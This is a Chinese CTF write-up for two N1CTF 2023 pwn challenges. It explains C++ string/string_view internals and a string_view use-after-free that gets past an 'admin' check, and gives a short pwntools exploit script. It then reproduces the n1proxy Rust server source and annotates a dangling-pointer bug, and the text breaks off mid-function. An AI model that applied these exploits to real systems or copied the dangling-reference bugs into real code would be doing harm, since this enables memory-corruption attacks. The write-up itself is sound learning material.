# 2023 N1CTF Junior pwn：顶级签到


## 参考
[https://zqy.ink/2023/05/12/dingjiqiandao/](https://zqy.ink/2023/05/12/dingjiqiandao/)

## make_pair
这个函数解析用户输入的登录信息。这里使用的 `make_pair` 是 C++ 标准库中用于创建 `std::pair` 对象的函数。`std::pair` 是一个模板类，可以同时存储两个相关的值，这两个值通常可以是不同的类型。

具体来说，在这行代码中：

```cpp
return make_pair(tok_ring[0], tok_ring[1]);
```

- `tok_ring` 是 `splitToken` 函数返回的 `std::vector<std::string_view>`，存储按特定分隔符（这里是冒号 `:`）分割出的字符串片段。`tok_ring[0]` 表示第一个片段（通常是用户名），`tok_ring[1]` 表示第二个片段（通常是密码）。

- `make_pair` 函数以这两个字符串片段为参数，创建一个新的 `std::pair` 对象，其第一个元素是 `tok_ring[0]`（用户名），第二个元素是 `tok_ring[1]`（密码）。

`return make_pair(tok_ring[0], tok_ring[1]);` 这一行把解析出的用户名和密码打包成一个 `std::pair` 对象，作为 `parseUser` 函数的返回值返回。


## string_view 和 string


#### `std::string` 的内部实现与特点

`std::string` 是一个封装了动态数组、用于存储和操作字符串的类。它的内部结构通常包含以下组成部分：

1. **字符指针**：指向动态分配的字符数组的指针，存储字符串的实际内容。
2. **长度**：记录字符串当前实际长度（字符个数，不包括结尾的空字符）的成员变量。
3. **容量**：通常是另一个成员变量，记录当前已分配内存的总量，为字符串增长预留空间，避免频繁地重新分配内存。
4. **管理机制**：`std::string` 负责动态内存的分配和释放，包括自动增长策略（字符串增长时自动扩展内存容量）和深拷贝（复制或赋值时复制内容）。

#### `std::string_view` 的内部实现与特点

相比之下，`std::string_view` 是一个轻量级的字符串视图类，它不拥有字符串的内存，而是对已有字符串的引用。它的内部结构相对简单：

1. **字符指针**：一个指向字符串数据的 `const char*` 或 `const CharT*` 指针，指向外部存储的字符串的起始位置。
2. **长度**：记录 `string_view` 所引用字符串长度的成员变量。
   
`string_view` 的设计理念是零开销的字符串引用：它不涉及内存管理，不复制字符串，只提供对已有字符串的视图。它可以提高效率，尤其是在字符串操作频繁或需要避免不必要的字符串复制时。

#### 示例

假设我们有一个函数，需要统计某个字符在字符串中出现的次数：

- **使用 `std::string`**：
  ``cpp
std::string str = "Hello, World!";
std::size_t count = std::count(str.begin(), str.end(), 'o');
  ``
  这里即使传入的是临时字符串字面量，str 仍会在栈上创建一个副本。

- **使用 `std::string_view`**：
  ``cpp
std::string_view view = "Hello, View!";
std::size_t count = std::count(view.begin(), view.end(), 'e');
  ``
string_view` 直接引用原始字符串数据，没有额外的内存分配或复制操作，因此效率更高。

总之，`std::string` 提供完整的字符串管理，包括内存分配和所有权，适用于需要修改字符串或独立存储字符串数据的场景。`std::string_view` 作为高效的只读视图，适用于不需要修改字符串且希望避免复制开销的情况。


##  SSO（短字符串优化）与堆分配
下面是 string 内部结构的一个基本的概念示意：

```cpp
template<typename CharT, typename Traits, typename Allocator>
class basic_string {
private:
    union {
        struct {
            // 指向堆上分配的字符串数据的指针（如果未使用SSO）
            CharT* ptr;
            // 字符串长度（不包括终止的空字符）
            size_t length;
            // 总容量（包括已使用的和未使用的，仅当在堆上分配时有意义）
            size_t capacity;
        };
        // 内部缓冲区，用于SSO（假设大小为N，N通常由实现决定，例如15或22）
        CharT small_buffer[N];
    };

    // 一个或几个比特位用于标记是否使用SSO
    bool is_short_string : 1;

    // 其他成员和方法...
};
```

`basic_string` 类通过联合体（union）实现 SSO。联合体允许把同一块内存区域解释为不同的数据类型。当字符串足够短、满足 SSO 条件时，字符串数据直接存储在 `small_buffer` 中，此时不使用 `ptr`、`length` 和 `capacity` 字段。`is_short_string` 标志表示当前的 `std::string` 对象是否使用了 SSO。如果字符串超过了 SSO 的长度限制，`ptr` 指向堆上分配的字符串数据，而 `length` 和 `capacity` 记录字符串的实际长度和已分配的总容量。

## `std::basic_string`、`std::string` 和 `std::string_view` 的机制
在 C++ 中，内存分配可以发生在堆上，也可以发生在栈上。对于 `std::string`、`std::string_view` 和 `std::basic_string`，内存分配机制有所不同，具体如下：

#### `std::string`

- **内存分配**：`std::string` 对象本身（即控制块，包括指向字符数据的指针、大小等信息）通常分配在栈上。但字符串的实际字符数据通常是动态分配的，即在堆上。这是因为字符串的长度不固定，可能在运行时发生变化。
  
- **短字符串优化（SSO）**：许多实现（如 libstdc++ 和 libc++）使用一种称为短字符串优化（SSO）的技术。在这种情况下，如果字符串的长度低于某个阈值，字符数据可能存储在栈上的对象内部，而不是在堆上分配。这种优化减少了小字符串的堆分配开销。

- **分配方式**：使用标准库的分配器（allocator）机制管理内存。默认使用 `std::allocator<char>` 进行堆内存分配。

```cpp
#include <string>

int main() {
    std::string str = "Hello, World!"; // 可能使用SSO
    str += " More text."; // 可能触发堆分配
    return 0;
}
```

#### `std::string_view`

- **内存分配**：`std::string_view` 不拥有字符串数据，它只是已有字符数据的一个视图，因此不进行堆内存分配。`std::string_view` 对象本身通常分配在栈上，它持有一个指向字符数据的指针和表示长度的大小信息。

- **分配方式**：因为它不管理内存，所以不需要动态内存分配。`std::string_view` 只存储一个指针和长度信息，通常在栈上创建。

```cpp
#include <string_view>
#include <iostream>

int main() {
    const char* text = "Hello, World!"; // 字符数据在常量区
    std::string_view view(text); // view在栈上，不分配堆内存
    std::cout << view << std::endl;
    return 0;
}
```

#### `std::basic_string`

- **内存分配**：`std::basic_string` 的分配机制与 `std::string` 类似，因为 `std::string` 就是 `std::basic_string<char>` 的特化。对于不同的字符类型（如 `wchar_t`），分配机制仍然相同：对象本身在栈上，字符数据通常在堆上。

- **短字符串优化（SSO）**：与 `std::string` 一样，`std::basic_string` 也可以使用 SSO 来优化小字符串的存储，减少堆分配。

- **分配方式**：使用模板参数指定的分配器（默认为 `std::allocator<CharT>`）管理动态内存。

```cpp
#include <string>
#include <iostream>

int main() {
    std::basic_string<wchar_t> wide_str = L"Hello, World!"; // 可能在栈上用SSO，否则在堆上
    wide_str += L" More text."; // 可能触发堆分配
    std::wcout << wide_str << std::endl;
    return 0;
}
```

## allocator 分配
在 C++ 中，`std::allocator` 是标准库用于动态内存管理的默认分配器。它为标准库容器（如 `std::vector`、`std::string`、`std::basic_string` 等）提供了一种简单有效的内存分配与释放机制。

#### `std::allocator` 的默认行为

`std::allocator` 是一个模板类，提供分配和释放内存的基本功能，其行为类似于 `new` 和 `delete` 运算符。`std::allocator` 的关键成员函数及其用途如下：

1. **`allocate(size_t n)`**：分配足以容纳 `n` 个 `T` 类型对象的未初始化存储空间，返回指向所分配存储空间的指针。

2. **`deallocate(T* p, size_t n)`**：释放之前分配的内存块 `p`，其中 `n` 是 `allocate` 时分配的对象个数。

3. **`construct(T* p, Args&&... args)`**：用传入的参数在 `p` 指向的内存处构造一个对象。从 C++17 开始，标准库容器不再显式调用 `construct` 和 `destroy`，而是直接使用 placement new 并显式调用析构函数。

4. **`destroy(T* p)`**：销毁 `p` 指向的内存处的对象。

#### `std::basic_string` 中分配器的使用

`std::basic_string` 是一个模板类，`std::string` 是它的一个特化（即 `std::basic_string<char>`）。`std::basic_string` 使用分配器管理其字符数据的内存。默认情况下，`std::basic_string` 使用 `std::allocator` 进行内存管理。

##### 内存分配过程

1. **对象创建**：创建 `std::string` 或 `std::basic_string` 对象时，字符串对象本身通常分配在栈上（如果是在函数内部创建的）。这个对象包含指向字符数据的指针、字符串的大小和容量等元数据。

2. **字符数据分配**：字符数据通常分配在堆上。使用 `std::allocator` 的 `allocate` 方法在堆上分配足够的内存来存储字符串字符。

3. **短字符串优化（SSO）**：许多实现使用短字符串优化（SSO），即当字符串较短时，字符数据存储在字符串对象的内部缓冲区中，而不是在堆上。这减少了小字符串的堆分配开销。

4. **内存释放**：`std::string` 或 `std::basic_string` 对象被销毁时，会调用分配器的 `deallocate` 方法释放字符数据的内存。


## 源码

```cpp
#include <iostream>
#include <string>
#include <vector>
#include <exception>
#include <string_view>
#include <unordered_map>
#include <functional>
using namespace std;

string getInput()
{
    string res;
    getline(cin, res);
    //输入一行
    if (res.size() > 64)//判断size
        throw std::runtime_error("Invalid input");
    while (!res.empty() && res.back() == '\n')
        res.pop_back();//不断判断字符最后一个字符是否是\n并且判断是否为空，如果不空并且最后一个字符为\n就会pop出去
    return res;
}
bool allow_admin = false;
auto splitToken(string_view str, string_view delim)
{
    if (!allow_admin && str.find("admin") != str.npos)
    //find、rfind等函数，如果没有找到目标子串，这些函数就会返回npos，通知调用者没有找到匹配。
        throw std::invalid_argument("Access denied");
    vector<string_view> res;
    size_t prev = 0, pos = 0;
    do
    {
        pos = str.find(delim, prev);
        if (pos == std::string::npos)//没有找到分隔符
        {
            pos = str.length();
        }
        res.push_back(str.substr(prev, pos - prev));//截断从开始位置到分隔符的位置
        prev = pos + delim.length();//更新起始位置
    } while (pos < str.length() && prev < str.length());
    return res;
}
auto parseUser()
{
    auto tok_ring = splitToken(getInput(), ":");//以:分隔
    if (tok_ring.size() != 2)
        throw std::invalid_argument("Bad login token");
    if (tok_ring[0].size() < 4 || tok_ring[0].size() > 16)//login name的长度限制
        throw std::invalid_argument("Bad login name");
    if (tok_ring[1].size() > 32) //login password长度限制
        throw std::invalid_argument("Bad login password");
    return make_pair(tok_ring[0], tok_ring[1]);
}
const unordered_map<string_view, function<void(string_vie)w> > handle_admin = {
    {"admin", [](auto)
     {
         system("/readflag");
     }},
    {"?", [](auto)
     {
         cout << "Enjoy :)" << endl;
         cout << "https://www.bilibili.com/video/BV1Nx411S7VG" << endl;
     }}};
constexpr auto handle_guest = [](auto)
{
    cout << "Hello guest!" << endl;
};
int main()
{
    auto [username, password] = parseUser();
    cout << "Enter 'login' to continue, or enter 'quit' to cancel." << endl;
    auto choice = getInput();
    if (choice == "quit")
    {
        cout << "bye" << endl;
        return 0;
    }
    if (auto it = handle_admin.find(username); it != handle_admin.end())
    //根据一开始的parseUser中得到username来寻找处理函数
    //由于parseUser不允许admain，所以要想办法绕过
    {
        it->second(password);
    //寻找键，如果不是最后一个键即？就调用寻找到的键对应的函数
    }
    else
    {
        handle_guest(password);
    }
}
```

## 思路
1. parseUser 中用 string_view 引用了 getInput 得到的 string 对象。如果 string 对象创建时字符足够多，就会使用堆分配来存储字符串。parseUser 结束时，string 对象的析构函数被调用并释放堆块，但 string_view 中仍然保存着指向堆上对应字符串的指针。
2. parseUser 最终返回的是两个 string_view 对象，它们的指针都指向已经被释放的堆块。
3. 接下来再次调用 getInput；如果输入足够长，同样会在堆上分配。如果大小合适，就能与上次析构释放的堆块重叠，从而修改堆上原来的内容——而 string_view 对象的指针恰好指向那个被释放的堆块。
4. 由于之前 parseUser 中的分割，两个 string_view 对象的指针分别指向堆上对应的内容（username: password）。所以如果新输入的长度和格式与之前相同，输入中 username 对应的部分就会被识别为 admin，从而绕过之前的 admin 检查。


## exp

```python
from pwn import *
p=process('./pwn')
p.sendline(b'aaaaa:'+b'a'*32)
p.sendlineafter(b'cancel',b'admin'+b'a'*33)
# aaaaa和admin都是五个字节，使得string_view对象保存的字符串从aaaaa识别为admin
p.interactive()
```


# 2023 N1CTF-n1proxy


## 参考资料
[https://github.com/Nu1LCTF/n1ctf-2023/tree/main/pwn/n1proxy](https://github.com/Nu1LCTF/n1ctf-2023/tree/main/pwn/n1proxy)
[https://eqqie.cn/index.php/tag/Rust-Pwn](https://eqqie.cn/index.php/tag/Rust-Pwn)
[https://github.com/importcjj/rust-miniproxy/blob/master/docs/SOCKS5%E5%8D%8F%E8%AE%AE.md](https://github.com/importcjj/rust-miniproxy/blob/master/docs/SOCKS5%E5%8D%8F%E8%AE%AE.md)

## rsa
一个 RSA 密钥对通常由两部分组成：公钥和私钥。公钥可以安全地分发给任何人，用于加密数据或验证签名。私钥必须保密，用于解密数据或生成签名。在某些情况下，你可能拥有一个只包含公钥的密钥对象，也可能拥有一个同时包含公钥和私钥的密钥对象。
## 握手
用公钥“解码”签名的过程，实际上就是数字签名验证的过程，它依赖于公钥密码算法的数学原理。下面解释为什么用公钥解码签名会得到一个与哈希算法输出相匹配的结果：

1. **生成数字签名**：
   - 当客户端生成数字签名时，它首先使用一个安全的哈希函数（例如 SHA-256）对数据（例如公钥本身或其哈希值）生成一个哈希值。这个哈希值是原始数据的摘要；数据发生任何微小的变化都会导致哈希值发生巨大变化。

2. **用私钥加密哈希值**：
   - 接下来，客户端使用自己的私钥加密这个哈希值，生成数字签名。在 RSA 算法中，这个过程本质上是把哈希值做指数幂运算，再对结果取模。

3. **发送数据和签名**：
   - 客户端把原始数据（公钥）和数字签名一起发送给服务器。

4. **验证数字签名**：
   - 服务器收到数据和签名后，首先对同一份数据应用相同的哈希算法生成一个哈希值。
   - 然后，服务器使用客户端的公钥尝试“解密”签名。在 RSA 中，这意味着对签名值做逆模运算（即对其做指数的逆运算并对模数取模）。

5. **匹配过程**：
   - 如果签名有效，用公钥解密得到的值应该与服务器自己计算出的哈希值完全一致。这是因为私钥加密和公钥解密是互逆的操作，并且共用同一个模数（在 RSA 中，模数是公钥和私钥共有的部分）。

## rust_proxy 源码

```rust
use aes::cipher::block_padding::Pkcs7;
use aes::cipher::generic_array::GenericArray;
use aes::cipher::typenum::U16;
use aes::cipher::typenum::U32;
use aes::cipher::BlockDecryptMut;
use aes::cipher::BlockEncryptMut;
use aes::cipher::KeyIvInit;
use aes::Aes256;
use anyhow::anyhow;
use anyhow::Result;
use cbc::Decryptor;
use cbc::Encryptor;
use lazy_static::lazy_static;
use libc::c_char;
use libc::c_int;
use libc::c_void;
use libc::in_addr_t;
use libc::iovec;
use libc::mallopt;
use libc::memcmp;
use libc::msghdr;
use libc::read;
use libc::recvfrom;
use libc::recvmsg;
use libc::sendmsg;
use libc::sendto;
use libc::size_t;
use libc::sockaddr_in;
use libc::sockaddr_un;
use libc::socket;
use libc::ssize_t;
use libc::write;
use libc::AF_INET;
use libc::AF_UNIX;
use libc::MSG_CONFIRM;
use libc::MSG_WAITALL;
use libc::SOCK_DGRAM;
use libc::SOCK_STREAM;
use rand::thread_rng;
use rand::Rng;
use rsa::pkcs1v15;
use rsa::signature::SignatureEncoding;
use rsa::signature::Signer;
use rsa::signature::Verifier;
use rsa::traits::PublicKeyParts;
use rsa::Pkcs1v15Encrypt;
use rsa::RsaPrivateKey;
use rsa::RsaPublicKey;
use sha2::Digest;
use sha2::Sha256;
use std::collections::HashMap;
use std::collections::HashSet;
use std::env;
use std::fs;
use std::mem;
use std::path::Path;
use std::process::exit;
use std::slice;
use std::sync::Arc;
use std::thread;

type Aes256CbcEnc = Encryptor<Aes256>;
type Aes256CbcDec = Decryptor<Aes256>;

const HELLO_MSG: &str = "n1proxy server v0.1";
const CLIENT_HELLO: &str = "n1proxy client v0.1";

const KEY_BITS: usize = 4096;
const MAX_STREAM: usize = 30;
const TOTAL_STREAM: usize = MAX_STREAM;

#[derive(Debug, Clone)]
struct SessionKey {
    key: Vec<u8>,
    iv: Vec<u8>,
}

impl SessionKey {
    pub fn to_bytes(&self) -> Vec<u8> {
        let mut res = self.key.clone();
        res.extend(self.iv.clone());
        res
    }
}

lazy_static! {
    static ref PRIV_KEY: Arc<RsaPrivateKey> = Arc::new({
        let mut rng = rand::thread_rng();
        RsaPrivateKey::new(&mut rng, KEY_BITS).expect("failed to generate a key")
    });
    static ref CLIENT_KEY: parking_lot::Mutex<HashMap<RsaPublicKey, SessionKey>> =
        parking_lot::Mutex::new(HashMap::new());
    static ref CLIENT_STREAM: parking_lot::Mutex<HashMap<RsaPublicKey, HashSet<i32>>> =
        parking_lot::Mutex::new(HashMap::new());
}

#[allow(dead_code)]
#[derive(Debug)]
enum ConnType {
    New = 0,
    Restore = 1,
    Renew = 2,
    Restart = 114514,
    Unknown = 3,
}

impl ConnType {
    pub fn from_le_bytes(data: &[u8]) -> ConnType {
        let data = u32::from_le_bytes(match data.try_into() {
            Ok(data) => data,
            Err(_) => return ConnType::Unknown,
        });
        match data {
            0 => ConnType::New,
            1 => ConnType::Restore,
            2 => ConnType::Renew,
            _ => ConnType::Unknown,
        }
    }
}
#[derive(Debug)]
enum ProxyType {
    Tcp = 0,
    Udp = 1,
    Sock = 2,
    Unknown = 3,
}
#[derive(Debug)]
enum ProxyStatus {
    Send = 0,
    Recv = 1,
    Conn = 2,
    Close = 3,
    Listen = 4,
    Unknown = 5,
}

impl ProxyType {
    pub fn from_le_bytes(data: &[u8]) -> ProxyType {
        let data = u32::from_le_bytes(match data.try_into() {
            Ok(data) => data,
            Err(_) => return ProxyType::Unknown,
        });
        match data {
            0 => ProxyType::Tcp,
            1 => ProxyType::Udp,
            2 => ProxyType::Sock,
            _ => ProxyType::Unknown,
        }
    }
}

impl ProxyStatus {
    pub fn from_le_bytes(data: &[u8]) -> ProxyStatus {
        let data = u32::from_le_bytes(match data.try_into() {
            Ok(data) => data,
            Err(_) => return ProxyStatus::Unknown,
        });
        match data {
            0 => ProxyStatus::Send,
            1 => ProxyStatus::Recv,
            2 => ProxyStatus::Conn,
            3 => ProxyStatus::Close,
            4 => ProxyStatus::Listen,
            _ => ProxyStatus::Unknown,
        }
    }
}

macro_rules! os_error {
    () => {
        Err(std::io::Error::last_os_error().into())
    };
}

extern "C" {
    fn inet_addr(__cp: *const c_char) -> in_addr_t;
}

#[inline(always)]
fn my_write(fd: c_int, buf: *const c_void, count: size_t) -> Result<ssize_t> {
    let res = unsafe { write(fd, buf, count) };
    if res < 0 {
        Err(anyhow!("Failed to write to socket"))
    } else {
        Ok(res)
    }
}

#[inline(always)]
fn my_read(fd: c_int, buf: *mut c_void, count: size_t) -> Result<ssize_t> {
    let res = unsafe { read(fd, buf, count) };
    if res < 0 {
        Err(anyhow!("Failed to read from socket"))
    } else {
        Ok(res)
    }
}

fn my_connect(target_ip: &str, target_port: u16) -> Result<i32> {
    let target_fd = unsafe { libc::socket(AF_INET, SOCK_STREAM, 0) };
    let target_ip = target_ip.to_owned() + "\0";

    let mut target: sockaddr_in = unsafe { mem::zeroed() };

    target.sin_family = libc::AF_INET as u16;

    target.sin_addr.s_addr = unsafe { inet_addr(target_ip.as_ptr() as *const _) };
    target.sin_port = target_port.to_be();

    let res = unsafe {
        libc::connect(
            target_fd,
            &target as *const _ as *const _,
            mem::size_of_val(&target) as u32,
        )
    };

    if res < 0 {
        return os_error!();
    }

    Ok(target_fd)
}

// record fd and target addr
lazy_static! {
    static ref UDP_TARGET: parking_lot::Mutex<HashMap<i32, sockaddr_in>> =
        parking_lot::Mutex::new(HashMap::new());
}

#[inline(always)]
fn my_new_udp_connect(target_ip: &str, target_port: u16) -> Result<i32> {
    let sockfd = unsafe { socket(AF_INET, SOCK_DGRAM, 0) };
    if sockfd <= 0 {
        return os_error!();
    }

    let mut server_addr: sockaddr_in = unsafe { mem::zeroed() };

    let target_ip = target_ip.to_owned() + "\0";
    server_addr.sin_family = AF_INET as u16;
    server_addr.sin_addr.s_addr = unsafe { inet_addr(target_ip.as_ptr() as *const _) };
    server_addr.sin_port = target_port.to_be();

    let res = unsafe {
        libc::connect(
            sockfd,
            &server_addr as *const _ as *const _,
            mem::size_of_val(&server_addr) as u32,
        )
    };

    if res < 0 {
        return os_error!();
    }

    UDP_TARGET.lock().insert(sockfd, server_addr);

    Ok(sockfd)
}

#[inline(always)]
fn my_sendto(fd: i32, msg: &[u8]) -> Result<isize> {
    let target = *UDP_TARGET
        .lock()
        .get(&fd)
        .ok_or_else(|| anyhow!("Invalid fd"))?;

    let res = unsafe {
        sendto(
            fd,
            msg.as_ptr() as *const _ as *const _,
            msg.len(),
            MSG_CONFIRM,
            &target as *const _ as *const _,
            mem::size_of_val(&target) as u32,
        )
    };

    if res < 0 {
        return os_error!();
    }

    Ok(res)
}

#[inline(always)]
fn my_recvfrom(fd: i32, recv_size: usize) -> Result<Vec<u8>> {
    let mut target = *UDP_TARGET
        .lock()
        .get(&fd)
        .ok_or_else(|| anyhow!("Invalid fd"))?;

    let mut res_msg = vec![0u8; recv_size];
    let mut addr_len = mem::size_of_val(&target) as u32;

    let recv_size = unsafe {
        recvfrom(
            fd,
            res_msg.as_mut_ptr() as *mut _,
            recv_size,
            MSG_WAITALL,
            &mut target as *mut _ as *mut _,
            &mut addr_len,
        )
    };
    if recv_size < 0 {
        return os_error!();
    }

    Ok(res_msg.to_vec())
}

const SOCKET_DIR: &str = "/tmp/n1proxy";

lazy_static! {
    static ref LISTEN_SOCK: parking_lot::Mutex<HashMap<String, (i32, Vec<i32>)>> =
        parking_lot::Mutex::new(HashMap::new());
}

fn hash_filename(path: &str, target_port: u16) -> String {
    Sha256::digest(format!("{}-{}", path, target_port))
        .iter()
        .map(|b| format!("{:02x}", b))
        .collect::<Vec<_>>()
        .join("")
}
#[inline(always)]
fn new_unix_socket_listen(path: &str, target_port: u16) -> Result<i32> {
    let socket_path = Path::new(SOCKET_DIR);
    if !socket_path.exists() {
        fs::create_dir_all(socket_path).expect("Failed to create socket dir");
    }

    let real_path = socket_path.join(hash_filename(path, target_port));

    println!("Socket path {:?}", real_path);

    let (sockfd, _) = LISTEN_SOCK
        .lock()
        .get(&real_path.as_os_str().to_string_lossy().to_string())
        .map(|f| {
            println!("cached fd");
            Ok(f.to_owned())
        })
        .unwrap_or_else(|| {
            println!("create new unix socket");
            let sockfd = unsafe { socket(AF_UNIX, SOCK_STREAM, 0) };
            if sockfd <= 0 {
                return os_error!();
            }
            let mut sock: sockaddr_un = unsafe { mem::zeroed() };

            sock.sun_family = AF_UNIX as u16;
            let path: String = real_path.as_os_str().to_string_lossy().to_string() + "\0";
            if path.len() > sock.sun_path.len() {
                return Err(anyhow!("Socket path too long"));
            }
            unsafe {
                libc::strcpy(sock.sun_path.as_mut_ptr(), path.as_ptr() as *const _);
            }
            let res = unsafe { //绑定套接字和套接字文件地址结构
                libc::bind(
                    sockfd,
                    &sock as *const _ as *const _,
                    mem::size_of_val(&sock) as u32,
                )
            };

            if res < 0 {
                unsafe {
                    libc::close(sockfd);
                }
                println!("Failed to bind socket");
                return os_error!();
            }

            let res = unsafe { libc::listen(sockfd, 100) };
            if res < 0 {
                unsafe {
                    libc::close(sockfd);
                }
                println!("Failed listen socket");
                return os_error!();
            }
            Ok((sockfd, vec![]))
        })?;

    let client_fd = unsafe { libc::accept(sockfd, std::ptr::null_mut(), std::ptr::null_mut()) };
    if client_fd < 0 {
        unsafe {
            libc::close(sockfd);
        }
        return os_error!();
    }

    LISTEN_SOCK
        .lock()
        .entry(real_path.as_os_str().to_string_lossy().to_string())
        .or_insert((sockfd, vec![]))
        .1
        .append(&mut vec![client_fd]);
        // 键为real_path，值为一个元组，
        // 包含两个元素：sockfd（Unix域套接字的监听文件描述符）和一个空向量vec![]（用于存储从监听套接字上接受到的客户端连接的文件描述符）。
        // .1表示访问元组的第二个元素，即存储客户端连接文件描述符的向量。append方法将包含client_fd的新向量追加到现有的客户端连接列表中
    Ok(client_fd)
}

#[inline(always)]
fn new_unix_socket_connect(path: &str, target_port: u16) -> Result<i32> { //连接之前的在服务器开启listen的监听套接字，返回服务端套接字
    let sockfd = unsafe { socket(AF_UNIX, SOCK_STREAM, 0) };
    if sockfd <= 0 {
        return os_error!();
    }

    let mut sock: sockaddr_un = unsafe { mem::zeroed() };

    sock.sun_family = AF_UNIX as u16;
    let path = Path::new(SOCKET_DIR)
        .join(hash_filename(path, target_port))
        .to_string_lossy()
        .to_string()
        + "\0";

    println!("connect socket path {:?}", path);

    if path.len() > sock.sun_path.len() {
        return Err(anyhow!("Socket path too long"));
    }
    unsafe {
        libc::strcpy(sock.sun_path.as_mut_ptr(), path.as_ptr() as *const _);
    }

    let res = unsafe {
        libc::connect(
            sockfd,
            &sock as *const _ as *const _,
            mem::size_of_val(&sock) as u32,
        )
    };
//  connect 是一个系统调用函数,用于建立与指定套接字地址的连接。在 Unix 系统中,它的函数原型如下:
// int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// sockfd是要连接的套接字文件描述符。
// addr是指向 sockaddr 结构体的指针,它包含了要连接的目标地址信息。对于 Unix 域套接字,这个结构体是 sockaddr_un。
// addrlen是 sockaddr 结构体的长度(以字节为单位)。

    if res < 0 {
        unsafe {
            libc::close(sockfd);
        }
        return os_error!();
    }

    Ok(sockfd) //返回目标套接字
}

#[inline(always)]
fn my_send_msg(fd: i32, msg: &[u8]) -> Result<isize> {
    let mut iov = vec![iovec {
        iov_base: msg.as_ptr() as *mut _,  
        iov_len: msg.len(),
    }];
    let m = msghdr {
        msg_name: std::ptr::null_mut(),
        msg_namelen: 0,
        msg_iov: iov.as_mut_ptr(),
        msg_iovlen: iov.len(),
        msg_control: std::ptr::null_mut(),
        msg_controllen: 0,
        msg_flags: 0,
    };
    let send_res = unsafe { sendmsg(fd, &m, 0) }; //发送 msghdr 结构中 msg_iov 字段指向的数据

    if send_res < 0 {
        return os_error!();
    }
    Ok(send_res)
}

#[inline(always)]
fn my_recv_msg(fd: i32, recv_size: usize) -> Result<Vec<u8>> {
    let mut recv_iov = [iovec {
        iov_base: vec![0u8; recv_size].as_mut_ptr() as *mut _,  //生命周期问题导致存在悬挂指针
        iov_len: recv_size,
    }];
    let mut msg = msghdr {
        msg_name: std::ptr::null_mut(),
        msg_namelen: 0,
        msg_iov: recv_iov.as_mut_ptr(),
        msg_iovlen: 1,
        msg_control: std::ptr::null_mut(),
        msg_controllen: 0,
        msg_flags: 0,
    };
    let recv_sz = unsafe { recvmsg(fd, &mut msg, 0) }; // 存到recv_iov[0].iov_base 
    if recv_sz < 0 {
        return os_error!();
    }

    let res = unsafe { slice::from_raw_parts(recv_iov[0].iov_base as *const u8, recv_size) };
    Ok(res.to_vec()) 
}

#[inline(always)]
fn now_timestamp() -> u64 {
    let now = std::time::SystemTime::now();
    now.duration_since(std::time::UNIX_EPOCH)
        .expect("Time went backwards")
        .as_secs()
}

fn session_dec(keys: SessionKey, msg: &[u8]) -> Result<Vec<u8>> {
    if msg.len() % 16 != 0 {
        return Err(anyhow!("Invalid message length"));
    }

    let key = GenericArray::<_, U32>::from_slice(
        keys.key
            .get(0..32)
            .ok_or_else(|| anyhow!("Invalid key length {}", keys.key.len()))?,
    );
    let iv = GenericArray::<_, U16>::from_slice(
        keys.iv
            .get(0..16)
            .ok_or_else(|| anyhow!("Invalid iv length {}", keys.iv.len()))?,
    );
    let mut msg = msg.to_vec();

    let dec = match Aes256CbcDec::new(key, iv).decrypt_padded_mut::<Pkcs7>(&mut msg) {
        Ok(dec) => dec,
        Err(err) => return Err(anyhow!("Failed to decrypt message {}", err)),
    };

    Ok(dec.to_vec())
}

fn session_enc(keys: SessionKey, msg: &[u8]) -> Result<Vec<u8>> {
    let key = GenericArray::<_, U32>::from_slice(
        keys.key
            .get(0..32)
            .ok_or_else(|| anyhow!("Invalid key length {}", keys.key.len()))?,
    );
    let iv = GenericArray::<_, U16>::from_slice(
        keys.iv
            .get(0..16)
            .ok_or_else(|| anyhow!("Invalid iv length {}", keys.iv.len()))?,
    );
    let mut msg = msg.to_vec();
    let msg_len = msg.len();
    let padding_len = (16 - (msg_len % 16)) % 16;
    msg.extend(vec![padding_len as u8; padding_len]);

    let enc = match Aes256CbcEnc::new(key, iv).encrypt_padded_mut::<Pkcs7>(&mut msg, msg_len) {
        Ok(enc) => enc,
        Err(err) => return Err(anyhow!("Failed to encrypt message {}", err)),
    };

    Ok(enc.to_vec())
}

fn handle_client(stream_fd: i32) -> Result<()> {
    my_write(
        stream_fd,
        HELLO_MSG.as_ptr() as *const c_void,
        HELLO_MSG.len() as size_t,
    )?;

    let mut client_hello = [0; CLIENT_HELLO.len()];

    my_read(
        stream_fd,
        client_hello.as_mut_ptr() as *mut c_void,
        client_hello.len() as size_t,
    )?;

    let res = unsafe {
        memcmp(
            client_hello.as_ptr() as *const c_void,
            CLIENT_HELLO.as_ptr() as *const c_void,
            CLIENT_HELLO.len() as size_t,
        )
    };

    if res != 0 {
        return Err(anyhow!("Invalid client hello"));
    }

    println!("Client connected");

    let mut conn_type = vec![0; 4];
    my_read(
        stream_fd,
        conn_type.as_mut_ptr() as *mut c_void,
        conn_type.len() as size_t,
    )?;

    let conn_type = ConnType::from_le_bytes(&conn_type);

    println!("Connection type {:?}", conn_type);

    let pri_key = PRIV_KEY.as_ref().clone();
    let pub_key = RsaPublicKey::from(&pri_key);

    let pub_key_n = pub_key.n().to_bytes_be();
    let pub_key_e = pub_key.e().to_bytes_be();

    let key_exchange = vec![
        pub_key_n.len().to_le_bytes().to_vec(),
        pub_key_e.len().to_le_bytes().to_vec(),
        pub_key_n,
        pub_key_e,
    ]
    .concat();

    let signing_key = pkcs1v15::SigningKey::<Sha256>::new(pri_key.clone());

    let key_exchange_sign = signing_key.sign(&key_exchange).to_bytes();

    let key_exchange_sign = vec![
        key_exchange_sign.len().to_le_bytes().to_vec(),
        key_exchange_sign.to_vec(),
    ]
    .concat();

    println!("Sending key exchange");

    my_write(
        stream_fd,
        key_exchange_sign.as_ptr() as *const c_void,
        key_exchange_sign.len() as size_t,
    )?;

    my_write(
        stream_fd,
        key_exchange.as_ptr() as *const c_void,
        key_exchange.len() as size_t,
    )?;

    let mut client_msg_len = [0; 8];

    my_read(
        stream_fd,
        client_msg_len.as_mut_ptr() as *mut c_void,
        client_msg_len.len() as size_t,
    )?;

    let client_verify_len = u64::from_le_bytes(client_msg_len) as usize;

    println!("Client verify len {}", client_verify_len);

    let mut client_verify = vec![0; client_verify_len];

    my_read(
        stream_fd,
        client_verify.as_mut_ptr() as *mut c_void,
        client_verify.len() as size_t,
    )?;

    my_read(
        stream_fd,
        client_msg_len.as_mut_ptr() as *mut c_void,
        client_msg_len.len() as size_t,
    )?;

    let client_key_len = u64::from_le_bytes(client_msg_len) as usize;
    let mut client_key_n = vec![0; client_key_len];

    println!("Client key n len {}", client_key_len);

    my_read(
        stream_fd,
